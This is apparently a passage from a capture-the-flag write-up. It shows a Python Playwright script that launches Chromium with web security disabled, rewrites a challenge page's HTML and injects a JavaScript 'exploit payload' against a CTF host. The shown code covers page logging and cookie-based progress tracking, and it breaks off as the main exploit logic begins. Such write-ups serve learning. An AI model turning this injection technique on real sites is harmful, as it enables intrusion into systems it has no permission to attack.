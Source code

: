 The final Python script orchestrates this entire process. It launches the browser, sets up a route handler to modify the initial HTML, and injects a Base64-encoded JavaScript payload that carries out the three-step attack.

```py
# puppeteer_proxy_logger.py
import asyncio
import base64
from playwright.async_api import async_playwright
import json
import re
# This was used for some testing
def xor_decrypt(base64_data: str, key: str) -> bytes:
    binary = base64.b64decode(base64_data)
    out = bytearray(len(binary))
    for i in range(len(binary)):
        out[i] = binary[i] ^ ord(key[i % len(key)])
    return out  # return raw bytes

async def main():
    async with async_playwright() as pw:
        browser = await pw.chromium.launch(headless=False, args=["--disable-web-security"])
        page = await browser.new_page()

        # --- JavaScript Exploit Payload ---
        exploit_payload = """
            setTimeout(() => {
                // --- Setup for writing to the page ---
                document.body.innerHTML = '<h1>Exploit Initializing...</h1><pre id="exploit-log" style="white-space: pre-wrap; word-break: break-all; border: 1px solid #ccc; padding: 10px;"></pre>';
                const logElement = document.getElementById('exploit-log');
                const logToPage = (message) => {
                    if (typeof message === 'object') {
                        logElement.textContent += JSON.stringify(message, null, 2) + '\\n';
                    } else {
                        logElement.textContent += message + '\\n';
                    }
                };

                // --- Cookie-based State Management ---
                const setProgress = (step, sessionId) => {
                    const state = { step, sessionId, timestamp: Date.now() };
                    document.cookie = `exploit_progress=${JSON.stringify(state)};path=/`;
                    logToPage(`[+] Progress saved: At step '${step}'.`);
                };

                const getProgress = () => {
                    const match = document.cookie.match(/exploit_progress=([^;]+)/);
                    if (match) {
                        try { return JSON.parse(match[1]); } catch (e) { return null; }
                    }
                    return null;
                };

                const clearProgress = () => {
                    logToPage('[+] Clearing progress cookie.');
                    document.cookie = 'exploit_progress=;path=/;expires=Thu, 01 Jan 1970 00:00:00 GMT';
                };

                // --- Main Exploit Logic ---
                (async () => {
                  const BASE = "https://waffles.challs.brunnerne.xyz";
                  let session_id;
```